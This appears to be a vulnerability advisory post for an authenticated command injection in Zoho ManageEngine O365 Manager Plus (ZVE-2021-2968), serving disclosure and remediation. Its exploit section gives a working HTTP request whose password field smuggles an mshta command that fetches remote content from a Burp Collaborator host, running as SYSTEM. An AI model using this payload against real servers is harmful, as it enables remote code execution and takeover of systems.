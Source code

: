 ```yaml
---
layout: post
title:  "Zoho ManageEngine O365 Manager Plus - Authenticated Command Injection"
tag: advisory
excerpt_separator: <!--more-->

---
```


Zoho ManageEngine O365 Manager Plus before Build 4419 is vulnerable to command injection vulnerability.  
<!--more-->

### **Identifiers**
 - ZVE-2021-2968

### **Instances**
  - http://example.com/TenantSettings?method=updateProxySettings

### **Affected versions**
4.4

### **Technical Details:**
It was observed that, the application do not validate proxy setting parameters before concatenating them with a dynamically generated system command. This allows an authenticated low privilege attacker (operator user in this case) to execute arbitrary command with NT_AUTHORITY/SYSTEM privileges.

### **Impact:**
The impact in this case will be authenticated RCE with NT_AUTHORITY/SYSTEM privileges via lowest privilege user account. 

### **Exploit code**
Login to operator user account and trigger the following HTTP request:

```
POST /TenantSettings?method=updateProxySettings HTTP/1.1
Host: o365.local:8365
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 219
Origin: http://o365.local:8365
Connection: close
Referer: http://o365.local:8365/webclient/index.html
Cookie: JSESSIONIDO365=D0325019FF80B5E4BB83418CB2F52016; adsolutions-_zldp=hmyub28ivdRtzEjp7jMD3WQO5rw8hIplEFcOqEBeZ9ZW26aYU7jnvCwVCi2QlE%2Bwb3qDSNrSNME%3D; JSESSIONIDO365SSO=A5B1143623A9BA8FA6491318E4D17169; O365MangerCsrf=af19089e-0e90-4a10-b736-ebf6e47b9365

PROXY_SETTINGS=%7B%22SERVER_NAME%22%3A%22192.168.0.108%22%2C%22PORT%22%3A%228080%22%2C%22USER_NAME%22%3A%22aaaa%22%2C%22PASSWORD%22%3A%22aaaa;mshta%20http://3x164pvostzg9uppxnro7a37tyzqnf.burpcollaborator.net/rce;%22%7D
```

In the following screenshot, observe that the application executes the mshta command to the defined burp collaborator server.
  ![](/assets/images/ZVE-2021-2968/1.png)

### **Solution:**
It is recommended to perform input validation on user input before concatenating it with the system command.



